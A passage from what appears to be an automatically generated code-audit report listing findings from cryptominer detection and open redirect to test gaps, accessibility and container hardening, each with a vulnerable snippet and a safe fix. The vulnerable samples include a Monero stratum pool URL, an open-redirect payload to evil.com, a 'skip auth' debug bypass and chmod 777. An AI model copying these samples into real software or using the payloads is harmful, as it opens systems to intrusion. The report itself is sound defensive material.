**What it is.** Mining software or configuration is present: stratum pool URLs, XMRig/cpuminer/CoinHive, mining pools, a Monero wallet address, or xmrig config keys (donate-level, rx/0).

**Impact.** Your CPU/GPU and cloud bill pay for someone else's coins; builds and sites slow down; usually installed through a compromised dependency, CI job or server.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| high | `config/pool.json:1` | Cryptocurrency miner (stratum / XMRig / CoinHive) | 60 min |

**Steps:**

1. Confirm it is not intentional (a mining project, a test fixture, documentation).
2. Remove it and look for the process and persistence: `ps aux | grep -Ei 'xmrig|minerd'`, cron/systemd timers, `docker ps`.
3. Find the entry point (`git log -p -S'stratum' -- <file>`), a vulnerable service or a malicious dependency; patch it.
4. ROTATE every secret the machine or repository could read (cloud keys, DB passwords, API tokens, SSH keys, CI secrets, signing keys). Assume they are compromised.
5. Set CPU/cost alerts and restrict egress to mining pools.

**Vulnerable code/config:**
```
stratum+tcp://pool.minexmr.com:4444
```

**Safe form:**
```
# no mining code in applications or CI
```

**How to verify:** No miner strings remain; CPU usage is normal; outbound traffic to pool domains is blocked and shows no hits.

- [ ] `SEC-028`  — tick when fixed, then re-run the audit

### 22. Declared permissions / privacy strings  · **high**  · 1 confirmed · 0 to review

**What it is.** The app uses a protected API without declaring the permission (Android manifest) or the usage-description key (iOS Info.plist).

**Impact.** Android: SecurityException/feature silently fails. iOS: the app crashes on first use and fails App Store review.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| high | `mobile/ios/App/Info.plist:1` | iOS: code uses a protected API but Info.plist lacks NSLocationWhenInUs | 10 min |

**Steps:**

1. Android: add `<uses-permission android:name="..."/>` and request it at runtime before use.
2. iOS: add the matching `NS…UsageDescription` key to Info.plist with a clear, user-facing reason.
3. Test the permission-denied path too (no crash, helpful UI).

**Vulnerable code/config:**
```
CLLocationManager() without NSLocationWhenInUseUsageDescription
```

**Safe form:**
```
<key>NSLocationWhenInUseUsageDescription</key><string>We use your location to show nearby stores.</string>
```

**How to verify:** Launch on a clean simulator/emulator: the system prompt appears with your text; denial is handled.

- [ ] `BUG-001`  — tick when fixed, then re-run the audit

### 23. Mobile test strategy & infrastructure  · **medium**  · 6 confirmed · 0 to review

**What it is.** Missing unit/UI test layers, flaky sync (sleeps), text-based locators, no accessibility ids/tags, no CI device matrix or coverage.

**Impact.** Crashes and regressions on real devices; UI changes break tests; store rejections go unnoticed.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| medium | `.:1` | Android: no unit tests (src/test) for the app code | 240 min |
| medium | `.:1` | Android: no instrumented/UI tests (src/androidTest) | 240 min |
| medium | `mobile/ios/AppUITests/LoginUITests.swift:1` | iOS: UI tests exist but production code sets no accessibilityIdentifie | 90 min |
| medium | `mobile/ios/AppUITests/LoginUITests.swift:3` | iOS: 1 sleep/asyncAfter calls in tests (flaky) | 6 min |
| low | `.:1` | iOS: code coverage not enabled in scheme/test plan | 10 min |
| low | `mobile/ios/AppUITests/LoginUITests.swift:1` | iOS: 1 UI test file(s) do not set continueAfterFailure = false | 2 min |

**Steps:**

1. Pyramid: fast JVM/host unit tests (ViewModel/use-cases/reducers) ≫ component/UI tests ≫ a few end-to-end journeys on real devices/emulators.
2. Android: JUnit + MockK + Turbine + coroutines-test (`runTest`); Compose UI tests with `createComposeRule` and `Modifier.testTag` constants from production; Espresso for Views; UiAutomator for cross-app; Gradle Managed Devices (ATD images) in CI; never `Thread.sleep` - use idling/`waitUntil`/`advanceTimeBy`.
3. iOS: XCTest/Swift Testing for logic; XCUITest with `accessibilityIdentifier` (not visible text); `waitForExistence(timeout:)` instead of sleep; set `continueAfterFailure = false`; Test Plans for configs (locales, dark mode); `xcodebuild test` on a simulator matrix in CI.
4. Cross-platform: Flutter `flutter_test` + `integration_test` (+ goldens); React Native Jest + RNTL + Detox/Maestro; Maestro/Appium for black-box flows; noqa (vision-based, proprietary) for games/WebViews/canvases.
5. Add accessibility checks (Compose/Espresso AccessibilityChecks, XCUITest `performAccessibilityAudit`), coverage (Kover/JaCoCo, Xcode code coverage), and a device/OS matrix incl. one low-end device.

**Vulnerable code/config:**
```
Thread.sleep(2000); onView(withText("Login")).perform(click())  // XCUITest: sleep(2); app.buttons["Login"].tap()
```

**Safe form:**
```
composeRule.onNodeWithTag(Tags.LoginButton).performClick()   // XCUITest: app.buttons["login_button"].waitForExistence(timeout: 5)
```

**How to verify:** Tests pass 10× in a row on CI emulators/simulators; test names map to user journeys.

- [ ] `TST-001`, `TST-002`, `TST-004`, `TST-005`, `TST-010`, `TST-012`  — tick when fixed, then re-run the audit

### 24. Web accessibility (WCAG 2.2)  · **medium**  · 3 confirmed · 1 to review

**What it is.** Markup patterns that block keyboard and screen-reader users: images without alt, clickable non-interactive elements, positive tabindex, removed focus outline, missing page language, zoom disabled.

**Impact.** Users with disabilities cannot use the product; legal exposure (ADA, EAA, Section 508); worse SEO.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| medium | `web/index.html:10` | Image without alt text | 3 min |
| medium | `web/index.html:11` | Click handler on a non-interactive element (keyboard/screen-reader ina | 10 min |
| low | `web/index.html:2` | <html> without lang attribute | 2 min |
| review/medium | `web/index.html:15` | <input> without id/aria-label (cannot have an associated label) | 5 min |

**Steps:**

1. Images: meaningful `alt`, or `alt=""` if decorative.
2. Use real controls: <button>, <a href>, <input>; if a div must be clickable add role, tabindex="0" and Enter/Space handlers.
3. Never use tabindex > 0; keep DOM order = reading order.
4. Never remove focus outlines without an equally visible replacement (`:focus-visible`).
5. Set <html lang>; don't disable zoom in the viewport meta.
6. Automate: eslint-plugin-jsx-a11y / vuejs-accessibility, axe in unit and E2E tests, Lighthouse CI; do a manual keyboard + screen-reader pass for key flows.

**Vulnerable code/config:**
```
<div onclick="buy()">Buy</div>
```

**Safe form:**
```
<button type="button" onclick="buy()">Buy</button>
```

**How to verify:** Tab through the page: every control is reachable, visibly focused and operable by keyboard; axe reports 0 serious/critical.

- [ ] `A11-001`, `A11-002`, `A11-003`  — tick when fixed, then re-run the audit

### 25. Likely bug pattern  · **medium**  · 3 confirmed · 0 to review

**What it is.** Construct that behaves differently from what it appears to do.

**Impact.** Wrong results, lost errors or shared state bugs.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| medium | `app/Http/UserController.php:9` | Loose comparison in auth/token check | 10 min |
| medium | `backend/server.js:10` | async callback in forEach (not awaited) | 15 min |
| low | `backend/app.py:53` | Mutable default argument that is mutated or leaked | 10 min |

**Steps:**

1. Apply the safer idiom shown below.
2. Add a test that hits the edge case.

**Vulnerable code/config:**
```
def f(x, acc=[]): ...
```

**Safe form:**
```
def f(x, acc=None):
    acc = [] if acc is None else acc
```

**How to verify:** Call twice; results independent.

- [ ] `BUG-006`, `BUG-007`, `BUG-011`  — tick when fixed, then re-run the audit

### 26. Test coverage gap / test hygiene  · **medium**  · 3 confirmed · 0 to review

**What it is.** Modules without tests, skipped or assertion-free tests let regressions through.

**Impact.** Tests pass without verifying behavior.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| medium | `mobile/ios/AppUITests/LoginUITests.swift:1` | Test file `mobile/ios/AppUITests/LoginUITests.swift` defines tests but | 20 min |
| medium | `tests/test_app.py:1` | Test file `tests/test_app.py` defines tests but contains no assertions | 20 min |
| medium | `web/tests/checkout.spec.ts:8` | Focused test committed (`.only` / `fit`) - the rest of the suite is si | 2 min |

**Steps:**

1. Start with the highest-risk untested module (auth, payments, data access).
2. Write a characterization test of current behavior, then refactor.
3. Remove `.only`/skips or fix them; ensure each test asserts something.
4. Run tests in CI on every PR.

**Vulnerable code/config:**
```
it.only('works', ...)
```

**Safe form:**
```
it('works', () => { expect(result).toBe(42) })
```

**How to verify:** CI green; coverage report shows module covered.

- [ ] `TST-003`, `TST-008`, `BUG-010`  — tick when fixed, then re-run the audit

### 27. Test infrastructure gaps (front-end)  · **medium**  · 2 confirmed · 1 to review

**What it is.** Layers of the test pyramid are missing (unit/component, E2E, accessibility, visual, performance budget, coverage gates) or are not run in CI.

**Impact.** Regressions in UI, accessibility and critical flows reach users; refactors are unsafe.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| medium | `package.json:1` | Front-end has no unit/component test runner (Vitest/Jest/Karma) | 90 min |
| medium | `package.json:1` | package.json has no working `test` script | 5 min |
| review/medium | `package.json:1` | No automated accessibility testing (axe / jsx-a11y / Lighthouse) | 60 min |

**Steps:**

1. Unit/component: Vitest or Jest + Testing Library (query by role/label/text like a user).
2. E2E: Playwright (chromium + firefox + webkit/mobile viewport) for the 5-10 critical journeys; fixtures for auth (storageState); traces on failure; `forbidOnly` and a small `retries` in CI.
3. Accessibility: @axe-core/playwright (or jest-axe) on every key page + eslint-plugin-jsx-a11y.
4. Visual: Playwright `toHaveScreenshot` or Storybook + Chromatic/Percy for the design system; mask dynamic regions.
5. Network: mock third parties with MSW/route.fulfill; never hit real payment/email services.
6. Gates: coverage thresholds on changed code, Lighthouse CI / size-limit budgets, all required in CI.

**Vulnerable code/config:**
```
only a few unit tests, no browser tests
```

**Safe form:**
```
vitest + @testing-library + playwright + axe + CI job with traces/artifacts
```

**How to verify:** CI shows each layer running; breaking a critical flow turns the pipeline red.

- [ ] `TST-006`, `TST-007`  — tick when fixed, then re-run the audit

### 28. Engineering standards & tooling  · **medium**  · 2 confirmed · 0 to review

**What it is.** Linter, formatter, type checker, CI checks, config documentation or hooks are missing, so quality depends on individual discipline.

**Impact.** Style and bug classes recur; reviews waste time on formatting; regressions reach main.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| medium | `.github/workflows/deploy.yml:1` | CI does not appear to run: tests, lint | 45 min |
| low | `.:1` | No formatter / .editorconfig configured | 20 min |

**Steps:**

1. Pick one formatter and one linter per language; commit their configs; add `lint`, `format`, `typecheck`, `test` scripts.
2. Turn on strict typing: TS `strict`, Python mypy/pyright (ratchet per package), PHP phpstan level ≥ 6, Kotlin explicit API mode, Swift strict concurrency.
3. Run lint + types + tests in CI on every PR and make them required checks.
4. Add pre-commit hooks (format, lint, gitleaks).
5. Document env vars in .env.example; adopt Conventional Commits + SemVer.

**Vulnerable code/config:**
```
no eslint/ruff config, no CI
```

**Safe form:**
```
eslint.config.js + prettier + tsc --noEmit + vitest in .github/workflows/ci.yml (required)
```

**How to verify:** A PR with a lint/type/test failure cannot be merged.

- [ ] `COD-002`, `COD-006`  — tick when fixed, then re-run the audit

### 29. Predictable randomness for secrets  · **medium**  · 2 confirmed · 0 to review

**What it is.** Non-cryptographic RNGs (`Math.random`, `rand`, `random`) are predictable and must not generate tokens, OTPs or reset codes.

**Impact.** Attackers predict or brute-force tokens and take over accounts.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| medium | `backend/server.js:9` | Non-cryptographic RNG for secrets | 10 min |
| medium | `contracts/Vault.sol:24` | Solidity randomness from block data | 60 min |

**Steps:**

1. Use the CSPRNG: `crypto.randomBytes`, `secrets.token_urlsafe`, `random_bytes`, `SecureRandom`, `crypto/rand`.
2. Use ≥ 128 bits for tokens, hash them at rest, set expiry and single use.

**Vulnerable code/config:**
```
token = Math.random().toString(36)
```

**Safe form:**
```
token = crypto.randomBytes(32).toString('hex')   // Python: secrets.token_urlsafe(32)
```

**How to verify:** Grep again for non-CSPRNG calls near token/otp/reset code.

- [ ] `SEC-041`, `SEC-042`  — tick when fixed, then re-run the audit

### 30. SEM / analytics tracking setup  · **medium**  · 1 confirmed · 0 to review

**What it is.** Advertising and analytics tags are missing, duplicated, misconfigured, or fire without user consent; conversions are not tracked.

**Impact.** Ad spend cannot be optimized (no conversions), data is unreliable, and tracking before consent breaches GDPR/ePrivacy (fines; Google Ads audiences disabled without Consent Mode v2 in the EEA).

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| medium | `web/index.html:1` | Tracking tags found (Google Analytics 4, Meta Pixel) but no consent ma | 120 min |

**Steps:**

1. Install one tag manager (GTM) and load GA4, Google Ads and Meta pixels through it; avoid hard-coding duplicates.
2. Implement a consent banner (CMP) and Google Consent Mode v2: default `denied`, update on accept; do not fire marketing tags before consent.
3. Define conversion events (purchase, lead, sign_up) with value/currency, import them to Google Ads, and verify with Tag Assistant / GA4 DebugView.
4. Preserve gclid/UTM parameters through redirects and forms (hidden fields -> CRM).
5. Landing pages: indexable only if organic; fast (LCP < 2.5 s), message-matched to the ad, one primary CTA.

**Vulnerable code/config:**
```
<script src='https://www.googletagmanager.com/gtag/js?id=G-XXXX'> loaded unconditionally, no consent
```

**Safe form:**
```
gtag('consent','default',{ad_storage:'denied',analytics_storage:'denied',ad_user_data:'denied',ad_personalization:'denied'});
```

**How to verify:** With cookies rejected, no _ga/_fbp cookies or ad requests in DevTools > Network; conversions appear in GA4 DebugView after accepting.

- [ ] `SEM-001`  — tick when fixed, then re-run the audit

### 31. Project documentation  · **medium**  · 1 confirmed · 0 to review

**What it is.** Missing or thin project documentation (README, architecture notes, API spec, contributing guide) makes onboarding slow and decisions invisible.

**Impact.** New developers cannot run/test the project; knowledge lives in people's heads; reviews lack context.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| medium | `.:1` | Project has no README | 45 min |

**Steps:**

1. README: purpose, requirements, install, run, test, configuration (every env var), deploy, troubleshooting - a new dev must be productive in 10 minutes.
2. Add docs/architecture.md: context diagram, modules and their responsibilities, data flow, external systems, deployment view (a mermaid diagram is enough).
3. Record key decisions as ADRs (adr/0001-title.md: context, decision, consequences).
4. Publish an OpenAPI/GraphQL schema for HTTP APIs and keep it generated from code.
5. Add CONTRIBUTING.md (branching, commit style, how to run lint/tests) and CHANGELOG.md (Keep a Changelog + SemVer).

**Vulnerable code/config:**
```
README.md: '# app'
```

**Safe form:**
```
README.md: purpose · requirements · install · run · test · config table · deploy · troubleshooting
```

**How to verify:** A teammate follows the README on a clean machine without asking you anything.

- [ ] `COD-001`  — tick when fixed, then re-run the audit

### 32. World-writable permissions  · **medium**  · 1 confirmed · 0 to review

**What it is.** chmod 777 lets any local user modify files.

**Impact.** Any local user can read/modify the data.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| medium | `app.db:1` | SQLite file is world-accessible (0o644) | 5 min |

**Steps:**

1. Use 750/640 and correct owner/group.

**Vulnerable code/config:**
```
chmod -R 777 /var/www
```

**Safe form:**
```
chmod -R u=rwX,g=rX,o= /var/www
```

**How to verify:** `ls -l` shows no world-write.

- [ ] `SEC-039`  — tick when fixed, then re-run the audit

### 33. Open Redirect  · **medium**  · 1 confirmed · 0 to review

**What it is.** A redirect target comes from user input without an allowlist.

**Impact.** Phishing from your trusted domain; token leakage in OAuth flows.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| medium | `backend/app.py:35` | Redirect to user-controlled URL | 10 min |

**Steps:**

1. Redirect only to relative paths or to an allowlist of hosts.
2. Reject URLs with a scheme/host you do not own; beware `//evil.com` and `\\evil.com`.
3. Prefer opaque IDs (`?next=dashboard`) mapped server-side.

**Vulnerable code/config:**
```
return redirect(request.args['next'])
```

**Safe form:**
```
nxt = request.args.get('next', '/')
if not (nxt.startswith('/') and not nxt.startswith('//')): nxt = '/'
return redirect(nxt)
```

**How to verify:** Try `?next=https://evil.com` and `?next=//evil.com`: must land on `/`.

- [ ] `SEC-040`  — tick when fixed, then re-run the audit

### 34. Sensitive data in logs  · **medium**  · 1 confirmed · 0 to review

**What it is.** Passwords/tokens printed to logs end up in aggregators and crash reports.

**Impact.** Credential exposure to anyone with log access.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| medium | `frontend/src/App.jsx:4` | Secret/password written to logs | 5 min |

**Steps:**

1. Remove the log or redact (`token=***`).
2. Add a logging filter that masks known secret keys.

**Vulnerable code/config:**
```
console.log('login', password)
```

**Safe form:**
```
logger.info('login attempt', {user})
```

**How to verify:** Grep logs of a test run for the secret.

- [ ] `SEC-044`  — tick when fixed, then re-run the audit

### 35. Marker says to remove or fix this before production  · **medium**  · 1 confirmed · 0 to review

**What it is.** A comment says the code is temporary, for debugging/testing only, bypasses a check, or must be removed/disabled before release (for example `remove before prod`, `debug only`, `temporary hack`, `skip auth for now`).

**Impact.** Debug backdoors, disabled checks and test shortcuts reach production because nobody removed them.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| medium | `web/api_client.js:5` | Marker says to remove or fix this before production | 20 min |

**Steps:**

1. Open the code and decide: remove it now, or gate it behind a build/runtime flag that is OFF in production.
2. If it bypasses authentication, validation or limits, treat it as a vulnerability and fix it before anything else.
3. Add a CI check that fails the release when such markers exist (`grep -RInE 'remove before|debug only|do not (ship|merge)'`).
4. Delete the marker once the code is clean.

**Vulnerable code/config:**
```
if (req.query.debug === '1') return next(); // TEMP: skip auth, remove before prod
```

**Safe form:**
```
if (process.env.NODE_ENV !== 'production' && req.query.debug === '1') return next();   // dev-only, covered by test
```

**How to verify:** The shortcut is gone or impossible in production builds; CI blocks new `remove before prod` markers.

- [ ] `COD-005`  — tick when fixed, then re-run the audit

### 36. API documentation (docstrings / doc comments)  · **low**  · 2 confirmed · 0 to review

**What it is.** Public functions, classes and modules lack doc comments, or the comments are too short to say what the code promises (parameters, return value, errors, side effects).

**Impact.** Callers guess behavior from the implementation; IDE hints are empty; generated API docs are useless; reviews cannot check intent against code.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| low | `.:1` | Public API documentation coverage is 0.0% (target 60%) | 15 min |
| low | `backend/app.py:1` | Public API under-documented in `backend/app.py` (0/12) | 36 min |

**Steps:**

1. Document every PUBLIC symbol (not private helpers, tests, trivial getters): one-line summary in the imperative, then parameters, returns, raises/throws, side effects.
2. Use the language's standard: Python (PEP 257, Google or NumPy style), JS/TS (TSDoc/JSDoc), PHP (PHPDoc), Java/Kotlin (Javadoc/KDoc), Go (comment starts with the name), Rust (`///` + `# Examples`), Swift (DocC `///`), C# (XML `///`), Dart (`///`).
3. Add a short usage example to entry-point APIs; document units, ranges and nullability.
4. Enforce it: pydocstyle/interrogate, eslint-plugin-jsdoc, phpcs, detekt UndocumentedPublicClass/Function, revive `exported`, SwiftLint `missing_docs`, `-Wdocumentation`, `dart analyze public_member_api_docs`.
5. Ratchet: require docs on new/changed public code (use --baseline) instead of a big-bang rewrite.

**Vulnerable code/config:**
```
def charge(user, amount, retry=3):
    ...
```

**Safe form:**
```
def charge(user: User, amount: Decimal, retry: int = 3) -> Receipt:
    """Charge ``user`` ``amount`` and return the receipt.

    Args:
        user: Account to bill; must have a payment method.
        amount: Positive amount in the account currency.
        retry: Attempts on transient gateway errors.

    Returns:
        The persisted Receipt.

    Raises:
        PaymentDeclined: The gateway refused the charge.
    """
```

**How to verify:** Run the doc linter / doc generator: no missing-docstring warnings on public API; generated docs read well.

- [ ] `COD-007`, `COD-009`  — tick when fixed, then re-run the audit

### 37. Vulnerable or outdated dependency  · **low**  · 2 confirmed · 0 to review

**What it is.** A dependency has a known CVE or is end-of-life.

**Impact.** Non-reproducible builds; supply-chain drift.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| low | `package.json:1` | `package.json` has no lockfile | 5 min |
| low | `web/package.json:1` | `web/package.json` has no lockfile | 5 min |

**Steps:**

1. Upgrade to the fixed version (see advisory); run tests.
2. If no fix: replace library or add mitigation; document the exception with expiry date.
3. Enable Dependabot/Renovate.

**Vulnerable code/config:**
```
lodash@4.17.15
```

**Safe form:**
```
lodash@4.17.21
```

**How to verify:** `npm audit`/`pip-audit`/`composer audit` clean.

- [ ] `DEP-001`, `DEP-002`  — tick when fixed, then re-run the audit

### 38. Page experience & Core Web Vitals  · **low**  · 2 confirmed · 0 to review

**What it is.** Slow server response, render-blocking scripts, unsized/oversized images and missing lazy-loading hurt LCP, CLS and INP - ranking and conversion signals.

**Impact.** Lower rankings on mobile, higher bounce, lower ad Quality Score (landing page experience).

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| low | `web/index.html:1` | Pages with ≥3 images lacking width/height (layout shift) (1 of 1 HTML  | 5 min |
| low | `web/index.html:1` | Pages with render-blocking <script> (no async/defer) (1 of 1 HTML page | 5 min |

**Steps:**

1. Targets: LCP < 2.5 s, INP < 200 ms, CLS < 0.1 (field data in Search Console / CrUX).
2. Images: modern formats (AVIF/WebP), responsive srcset, explicit width/height, `loading="lazy"` below the fold, `fetchpriority="high"` on the LCP image.
3. Scripts: `defer`/`async`, split bundles, remove unused JS/CSS, third-party tags via GTM with delayed load.
4. Fonts: `font-display: swap`, preload the main font.
5. Server: CDN + caching, TTFB < 800 ms, gzip/brotli, HTTP/2+.

**Vulnerable code/config:**
```
  (2.4 MB, no size)
```

**Safe form:**
```

```

**How to verify:** Lighthouse mobile: Performance ≥ 90; CrUX shows 'Good' for all three vitals.

- [ ] `SEO-009`, `SEO-010`  — tick when fixed, then re-run the audit

### 39. Swallowed errors  · **low**  · 1 confirmed · 0 to review

**What it is.** Empty catch/except blocks hide failures so bugs surface far from their cause.

**Impact.** Silent data loss, impossible debugging.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| low | `backend/app.py:62` | Empty catch/except (swallowed error) | 10 min |

**Steps:**

1. Catch the narrowest exception; log with context or re-raise.
2. If intentionally ignored, comment why.

**Vulnerable code/config:**
```
try { save(); } catch (e) {}
```

**Safe form:**
```
try { save(); } catch (e) { logger.error('save failed', e); throw e; }
```

**How to verify:** Force the failure in a test; it must be visible.

- [ ] `COD-010`  — tick when fixed, then re-run the audit

### 40. Hardcoded machine-specific path  · **low**  · 1 confirmed · 0 to review

**What it is.** A path points into a person's home directory (`/Users/<name>/...`, `/home/<name>/...`, `C:\Users\<name>\...`). It only exists on one computer and reveals a username and folder layout.

**Impact.** The code breaks on every other machine and in CI/production, and the path leaks personal information about the developer.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| low | `backend/billing.py:1` | Personal machine path hardcoded: /Users/ana/ | 10 min |

**Steps:**

1. Replace it with a path relative to the project (`Path(__file__).parent`, `path.join(__dirname, ...)`) or a configurable directory (`DATA_DIR` environment variable).
2. For user-specific locations use the platform API (`Path.home()`, `os.homedir()`, `%APPDATA%`).
3. Search for other copies: `grep -RInE '/Users/|/home/[a-z]|C:\\Users'`.

**Vulnerable code/config:**
```
open('/Users/ana/Desktop/data.csv')
```

**Safe form:**
```
open(Path(__file__).parent / 'data' / 'data.csv')
```

**How to verify:** No personal paths remain; the project runs from a fresh clone in another directory.

- [ ] `COD-011`  — tick when fixed, then re-run the audit

### 41. Unfinished-work markers (TODO / FIXME / HACK / XXX)  · **low**  · 1 confirmed · 0 to review

**What it is.** Comments mark work that was postponed or code that is known to be fragile. A few are normal; hundreds, undated and unowned, mean unfinished features, known bugs and workarounds that nobody tracks.

**Impact.** Hidden backlog and hidden bugs: FIXME/HACK markers are admitted defects; old ones are usually forgotten until they break in production.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| low | `web/api_client.js:4` | 1 FIXME/HACK marker(s) in api_client.js | 10 min |

**Steps:**

1. Open `todo-backlog.md` (generated next to the report): every marker with file:line, text and age, ready to paste into your tracker.
2. Triage each one: DO it now (if small), TICKET it (`TODO(#123)` with the issue number), or DELETE it (obsolete, already done, or wishful thinking).
3. Treat FIXME / HACK / XXX / BUG as defects: schedule them; anything older than a year needs an owner or must go.
4. Stop the bleeding: add a lint rule (ESLint `no-warning-comments`, flake8-todo / ruff `TD` and `FIX` rules, golangci `godox`) that requires an issue reference, and fail CI on new FIXME/HACK.
5. Re-run the audit: the count should only go down.

**Vulnerable code/config:**
```
# TODO fix this later
# HACK: works for now
```

**Safe form:**
```
# TODO(#482): support pagination once the API returns a cursor (blocked by vendor v2, review 2026-02)
```

**How to verify:** Every remaining marker has an issue reference or an owner; FIXME/HACK count is zero or scheduled; CI rejects new unreferenced markers.

- [ ] `COD-014`  — tick when fixed, then re-run the audit

### 42. AI agent / spec files are tracked in the repository  · **info**  · 2 confirmed · 0 to review

**What it is.** Files that configure AI coding assistants or spec-driven workflows (CLAUDE.md, AGENTS.md, .cursor/, .windsurfrules, .github/copilot-instructions.md, openspec/, .specify/, memory-bank/ ...) are committed to the project.

**Impact.** They reveal tooling, prompts and internal conventions to anyone who clones the repo, and can contain private context. Some teams keep them on purpose - then this is informational.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| info | `.cursor/rules/style.mdc:1` | Cursor configuration committed: .cursor | 5 min |
| info | `CLAUDE.md:1` | Claude Code configuration committed: CLAUDE.md | 5 min |

**Steps:**

1. Decide whether the team needs them in the repo. If not, stop tracking them: `git rm --cached -r <path>` and add the path to `.gitignore` (the file stays on your disk).
2. Check them for secrets, internal URLs or customer names before publishing (`gitleaks detect`).
3. To remove them from history of a public repo use `git filter-repo --invert-paths --path <path>` (coordinate with collaborators; rewriting history is destructive).
4. Run `bash cleanup-fixes.sh AI-FILES` to untrack and ignore them safely.

**Vulnerable code/config:**
```
git add CLAUDE.md .cursor/ openspec/
```

**Safe form:**
```
# .gitignore
CLAUDE.md
AGENTS.md
.cursor/
.windsurfrules
openspec/
.specify/
```

**How to verify:** `git ls-files | grep -Ei 'claude\.md|agents\.md|\.cursor/|openspec/'` prints nothing (or only what you decided to keep).

- [ ] `COD-015`, `COD-016`  — tick when fixed, then re-run the audit

### 43. Comments or docs that reveal AI-assisted authoring  · **info**  · 1 confirmed · 0 to review

**What it is.** Source comments, headers or documentation say the code was generated or assisted by an AI tool (for example 'Generated with Claude Code', 'written by ChatGPT', 'As an AI language model'). They are not a vulnerability: they are noise that makes a finished project look unreviewed.

**Impact.** Unpolished delivery: stray assistant phrases, auto-generated banners and badges reduce trust with clients and reviewers. Some contracts, employers, schools or licences REQUIRE disclosing AI assistance - check before removing anything.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| info | `backend/utils_ai.py:1` | Comment reveals AI-assisted authoring | 2 min |

**Steps:**

1. Decide first: if a policy, contract, course or licence requires disclosure, keep the notice (or move it to a README/AI-USE section) instead of deleting it.
2. Review each flagged line; delete assistant chatter and generator banners that carry no information (`# Generated by ...`, 'Here is the updated code', 'As an AI...').
3. Replace useful explanations with real, human-reviewed comments that say WHY, not who wrote it.
4. Run `bash cleanup-fixes.sh AI-COMMENTS` (generated, never executed by the tool): it removes only comment-only lines that still match and keeps backups in `.pnua-backup/`.
5. Re-run the audit and review `git diff` before committing.

**Vulnerable code/config:**
```
# Generated by ChatGPT
# Here is the updated code:
def total(items): ...
```

**Safe form:**
```
# Sum of line totals in cents (no float rounding).
def total(items): ...
```

**How to verify:** Re-run the audit: no AITRACE-COMMENT / AITRACE-DOC findings; `git diff` shows only the lines you intended to change.

- [ ] `COD-017`  — tick when fixed, then re-run the audit

### 44. Denial of Service / Resource exhaustion (DoS/DDoS hardening)  · _review_  · 0 confirmed · 3 to review

**What it is.** Code-level conditions let one client (or many) consume unbounded CPU, memory, connections or time: no rate limit, unbounded page size, catastrophic regex, missing timeouts, unbounded uploads/archives, blocking calls on the event loop.

**Impact.** Service slowdown or outage; cost explosion on autoscaling/serverless; a single small request can saturate a worker.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| review/high | `backend/app.py:47` | Client-controlled size/limit without cap | 10 min |
| review/low | `backend/app.py:31` | Outbound HTTP call without timeout | 5 min |
| review/high | `package.json:1` | Web framework detected (express) but no rate limiting/throttling found | 60 min |

**Steps:**

1. Put rate limiting at the edge (nginx `limit_req`, CDN/WAF, API gateway) AND in the app for login, signup, reset, search and expensive endpoints.
2. Clamp every client-supplied size: `limit = min(int(limit), 100)`, max body size, max upload size, max array length, max GraphQL depth.
3. Set timeouts on every outbound HTTP/DB call and on server request/headers/keep-alive.
4. Replace catastrophic regexes (nested quantifiers) with linear ones, use RE2-style engines, or cap input length before matching.
5. Cap archive extraction (entries, total bytes, path check) and stream large files instead of loading them in memory.
6. Move heavy work to queues; avoid `*Sync` APIs and heavy hashing inside request handlers.
7. Load-test ONLY your own staging with k6/wrk at agreed rates; never against shared or third-party systems.

**Vulnerable code/config:**
```
per_page = int(request.args['per_page'])   # client can send 10000000
```

**Safe form:**
```
per_page = min(max(int(request.args.get('per_page', 20)), 1), 100)
requests.get(url, timeout=(3, 10))
# nginx: limit_req_zone $binary_remote_addr zone=api:10m rate=10r/s;  limit_req zone=api burst=20 nodelay;
```

**How to verify:** Send an oversized value / burst of requests to local staging and confirm 4xx/429 and bounded memory.

### 45. Container hardening  · _review_  · 0 confirmed · 3 to review

**What it is.** Root user, floating `latest` tags, remote ADD, secrets in ENV/ARG, curl|sh increase blast radius and break reproducibility.

**Impact.** Container escape easier; supply-chain and secret exposure.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| review/medium | `Dockerfile:1` | Dockerfile weakness | 10 min |
| review/medium | `Dockerfile:1` | `Dockerfile` never switches to a non-root USER | 10 min |
| review/medium | `Dockerfile:2` | Dockerfile weakness | 10 min |

**Steps:**

1. Add a non-root `USER`; pin base images by version/digest; use multi-stage builds.
2. Never put secrets in ENV/ARG/layers - use runtime secrets.
3. Replace `curl | sh` with pinned, checksum-verified downloads.

**Vulnerable code/config:**
```
FROM node:latest
USER root
```

**Safe form:**
```
FROM node:22.11-alpine@sha256:...
USER node
```

**How to verify:** `docker run --rm image id` is not uid 0; `hadolint Dockerfile` clean.

### 46. Hardcoded environment URL  · _review_  · 0 confirmed · 2 to review

**What it is.** A request or client is built with a literal URL tied to one environment (localhost/127.0.0.1, or a staging/dev/test host) instead of configuration. It works on one machine and breaks, or leaks test traffic, elsewhere.

